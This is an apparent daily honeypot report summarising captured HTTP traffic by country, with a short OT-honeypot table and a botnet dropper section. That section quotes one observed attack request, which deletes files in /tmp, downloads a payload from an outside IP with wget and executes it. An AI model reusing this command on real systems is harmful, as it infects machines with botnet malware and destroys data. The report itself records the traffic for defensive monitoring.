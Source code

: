 ```yaml
---
title: "Report: 2025-08-24 "
date: 2025-08-24
desciption: "Report: 2025-08-24" 
tags: [repport, daily]
---
```



# Daily Report: 2025-08-24 
# Executive summary
interaction report on http service of various Hhoneypot around the world. 

- [Executive summary](#executive_summary)
- [OT report simplified](#ot_simplified_report)
- [Botnet dropper behaviour](#botnet_dropper_behaviour)
- [List of request](#request)
- [List of country_iso_code](#country_iso_code)

## executive_summary

In today’s repport, we detected 1 stage 1 IP address(es), linked to 1 dropper URL(s).  

There are 150 new requests that have never been observed before (these were added to the monitored [request database.](https://blog.shoggoth.industries/database/request_database/)).  

A total of 3236 requests were recorded during the day, originating from 1 different countries, with a peak of 2846 requests coming from GB.


## ot_simplified_report
simplified report for medium-level interactions with honeypots that mimic industrial systems (web site loading, or interactions with the website), for more contact us on social@shoggoth.industries.
| source_country   | targeted_country   |
|:-----------------|:-------------------|
| GB               | Germany            |
| GB               | Germany            |
| US               | Germany            |
| US               | Germany            |
| BR               | Germany            |
| GB               | Germany            |

## botnet_dropper_behaviour
| remote_addr   | request                                                                   |
|:--------------|:--------------------------------------------------------------------------|
| 8.219.240.83  | GET /shell?cd+/tmp;rm+-rf+*;wget+196.251.86.86/jaws;sh+/tmp/jaws HTTP/1.1 |
